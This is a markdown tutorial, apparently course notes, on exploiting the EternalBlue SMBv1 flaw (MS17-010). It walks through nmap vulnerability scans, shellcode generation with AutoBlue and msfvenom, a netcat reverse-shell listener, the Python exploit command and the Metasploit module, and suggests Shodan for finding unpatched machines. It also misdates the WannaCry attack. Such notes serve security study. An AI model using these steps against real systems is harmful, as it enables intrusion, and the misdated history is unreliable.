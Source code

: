 # Exploiting Eternal Blue
> EternalBlue (MS17-010 & CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently to the network the target sits on.

## MS17-010 "ExternalBlue" Exploit
- EternalBlue was developed by the NSA to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called The Shadow Brokers in 2017.
- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specifically crafted packets that consequently facilitate the execution of arbitrary commands.
  - This could also be a reverse shell or meterpreter session in msfconsole.
  - And you get admin. So there's no priv esc to be had. You're in and you're in.
- One of the biggest MS Fubars of the last 10 to 15 years.

## MS17-010 "ExternalBlue" Exploit... More Info
- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017, to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
- This vulnerability affects multiple version of Windows:
  -   Windows Vista, 7, 8.1, Windows 10
  -   Windows Server 2008, 2012, 2016
 
## MS17-010 EternalBlue: Patches and Such
- Microsoft released a patch for the vulnerability in March of 2017. However many users and companies have still not yet patched their systems.
- The EternalBlue exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit, and it also has an exploit module that can be used to exploit the vulnerability on unpatched system.
- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a priviliged meterpreter session on the target system.
- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.

## [Shodan Search](https://www.shodan.io/)
- You can do a Shodan search and find thousands of machines still running versions of Windows that are vulnerable (unpatched).

## Exploit Tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
- Manual Exploitation: Through the use of a tool called AutoBlue-MS17-010

## Exploit Methods
```
nmap -p 445 -sV -sC -O [target ip]
nmap -p 445 -sV --script smb-vuln-ms17-010 [target ip]
```
- First run a standard port scan with nmap (`-sV -sC -O`); should confirm smb and the o/s, etc. 
- Then run an nmap script (`smb-vuln-ms17-010`) to get info about the MS17-010 vulnerability on the target.
  - This will tell you if it is vulnerable or not.

### Manual

#### 1. [Clone the Repo](https://github.com/3ndG4me/AutoBlue-MS17-010)
- Clone the repo on your local machine
- Follow the instructions on Github (install dependencies, etc.)
- Remember: You'll have to give files executable permissions to run them.


#### 2. Generate Shell Code
- `cd` into the shell code directory of your repo clone.
- run the bash script `shell_prep.sh`
- Answer "yes" to the msvenom question. Then plug in the arguments when prompted.
- Regular shell, stageless
- That's it.  Pay attention to the .bin file name it spits out (`sc_x86.bin` or `sc_x64.bin`)

#### 3. Set up a Listener
```
nc -nvlp 1234
````
- On your local (attack) machine (obviously).
- `-n`  No DNS lookups
- `-v`  Verbose output
- `-l`  Listen for an incoming call
- `-p`  Port number

#### 4. Execute the Python Exploit Script
```
python eternalblue_exploit7.py [target ip] /path/to/shellcode/to/execute.bin
```
- Execute the appropriate Python script for your target system.
- When you hit enter you should get a reverse shell on your netcat listener. 

### MetaSploit

- Start msfconsole and search for eternalblue
  -  There are two types of modules you can use
  -  Auxiliary: scans, etc. Tells you whether the target is vulnerable or not
  -  Exploit: This one runs the exploit on a vulnerable system
-  `use exploit/windows/smb/ms17_010_eternalblue`
-  Note the default payload. If it's okay, no changes necessary. If not, change it.
-  Check and set options: LHOST, LPORT, RHOSTS
-  `run`
-  You should get a meterpreter session quickly
